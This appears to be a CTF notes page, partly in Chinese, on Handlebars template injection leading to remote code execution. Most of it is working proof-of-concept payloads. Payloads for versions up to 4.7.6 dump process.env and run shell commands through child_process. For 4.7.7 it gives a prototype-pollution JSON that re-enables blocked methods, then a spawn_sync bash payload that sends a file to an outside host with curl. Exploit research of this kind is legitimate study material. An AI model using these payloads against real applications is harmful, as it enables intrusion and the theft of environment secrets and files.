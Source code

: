 ## 文章

[Handlebars模板注入到RCE 0day - 掘金](F:\LocalCTF\Handlebars模板注入到RCE 0day - 掘金.pdf)



## POC

### version <= v4.7.6

```json
{{#with this as |obj|}}
    {{#with (obj.constructor.keys "1") as |arr|}}
        {{arr.pop}}
        {{arr.push obj.constructor.name.constructor.bind}}
        {{arr.pop}}
        {{arr.push "return JSON.stringify(process.env);"}}
        {{arr.pop}}
            {{#blockHelperMissing obj.constructor.name.constructor.bind}}
              {{#with (arr.constructor (obj.constructor.name.constructor.bind.apply obj.constructor.name.constructor arr))}}
                {{#with (obj.constructor.getOwnPropertyDescriptor this 0)}}
                  {{#with (obj.constructor.defineProperty obj.constructor.prototype "toString" this)}}
                     {{#with (obj.constructor.constructor "test")}}
                        {{this}}
                     {{/with}}
                  {{/with}}
                {{/with}}
              {{/with}}
            {{/blockHelperMissing}}
  {{/with}}
{{/with}
```

```json
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return JSON.stringify(process.env);"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

```json
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

### version <= v4.7.7

Handlebars v4.7.7做了修复，主要修复思路应该是把危险助手函数禁用，翻文档发现可以通过设置运行时参数allowedProtoMethods来启用相关函数

https://www.handlebarsjs.cn/api-reference/runtime-options.html

要么可以通过原型链污染来修改`allowedProtoMethods`参数

![](F:\LocalCTF\pictures\640.png)

```json
{"__proto__":
  "allowedProtoMethods":
  {
   "split": true,
   "__lookupGetter__": true,
   "valueOf": true
  }
}
```

**绕过require**

handlebars的模板语法中禁用了require()，无法导入相关模块进行rce，这里需要通过process.binding('spawn_sync').spawn来rce。

```jinja2
{{#with (__lookupGetter__ "__proto__")}} 
  {{#with (./constructor.getOwnPropertyDescriptor . "valueOf")}} 
    {{#with ../constructor.prototype}}
      {{../../constructor.defineProperty . "hasOwnProperty" ..}} 
    {{/with}} 
  {{/with}} 
{{/with}} 
{{#with "constructor"}} 
  {{#with split}} 
	{{pop (push "eval('process.binding(\'spawn_sync\').spawn({file:\'/bin/bash\',args: [\'/bin/bash\',\'-c\',\'curl http://x.x.x.x:4041/`cat /flag`\'],stdio:[{type:\'pipe\',readable:!0,writable:!1},{type:\'pipe\',readable:!1,writable:!0},{type:\'pipe\',readable:!1,writable:!0}]});');")}}
    {{#with .}} 
      {{#with (concat (lookup join (slice 0 1)))}} 
        {{#each (slice 2 3)}} 
          {{#with (apply 0 ../..)}} 
             {{.}} 
 	      {{/with}} 
        {{/each}} 
      {{/with}} 
    {{/with}} 
  {{/with}} 
{{/with}}"}
```

